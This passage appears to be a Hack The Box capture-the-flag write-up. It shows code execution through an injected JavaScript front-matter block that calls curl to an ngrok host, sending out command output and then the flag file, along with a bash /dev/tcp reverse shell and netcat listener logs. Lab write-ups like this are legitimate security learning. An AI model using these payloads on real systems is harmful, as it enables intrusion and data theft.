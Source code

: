 #### Command Execution through Curl

The dockerfile shows that curl is installed (or you could guess it). As such you can test it

```
---js
((require("child_process")).execSync("curl http://3e0d-116-14-150-8.ngrok.io/$(whoami)"))
---RCE'
```

```
(base) [hacker@hackerbook tmp]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
127.0.0.1 - - [15/May/2022 09:36:17] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [15/May/2022 09:36:18] code 404, message File not found
127.0.0.1 - - [15/May/2022 09:36:18] "GET /favicon.ico HTTP/1.1" 404 -
127.0.0.1 - - [15/May/2022 10:04:59] code 404, message File not found
127.0.0.1 - - [15/May/2022 10:04:59] "GET /www-data HTTP/1.1" 404 -
```

#### Reverse Shell Payload

```bash
root@a5eeeb6f9ab1:/app/static# /bin/bash -i >& /dev/tcp/192.168.1.6/4444 0>&1
root@a5eeeb6f9ab1:/app/static# 
```

```
(base) [hacker@hackerbook ~]$ nc -nlvp 4444
Connection from 172.17.0.2:54340
root@a5eeeb6f9ab1:/app/static# whoami
whoami
root
root@a5eeeb6f9ab1:/app/static# ^CExiting.
(base) [hacker@hackerbook ~]$ 
```


### Final Exploit

I just accessed the flag directly using curl to redirect the command execution.

```
---js
((require("child_process")).execSync("curl http://3e0d-116-14-150-8.ngrok.io/$(cat /flag.txt)"))
---RCE'
```

```
127.0.0.1 - - [15/May/2022 10:08:27] code 404, message File not found
127.0.0.1 - - [15/May/2022 10:08:27] "GET /HTBbl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls HTTP/1.1" 404 -
```

I guessed the curly brackets are ommitted due to some url issue, so I added them back in

## Flag

`HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}`